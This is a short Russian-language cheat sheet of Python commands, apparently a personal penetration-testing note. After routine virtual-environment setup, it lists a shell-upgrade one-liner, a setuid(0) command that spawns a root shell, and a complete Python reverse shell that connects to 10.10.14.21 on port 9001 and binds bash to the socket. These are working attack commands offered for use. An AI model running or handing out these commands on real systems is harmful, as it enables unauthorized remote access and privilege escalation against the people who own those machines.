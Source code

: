 # Python

# Активировать виртуальную среду


python3 -m venv venv

source venv/bin/activate

pip3 install -r requirements.txt

pip3 install .

deactivate    (выход и окружения)


# получение виртуальной оболочки внутри текущей сессии

    python3 -c 'import pty;pty.spawn("/bin/bash")'

    export TERM=xterm

# выполнение команд оси

./python3.8 -c “import os; os.setuid(0), os.system(‘/bin/sh’)”

# Reverse shell

    exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
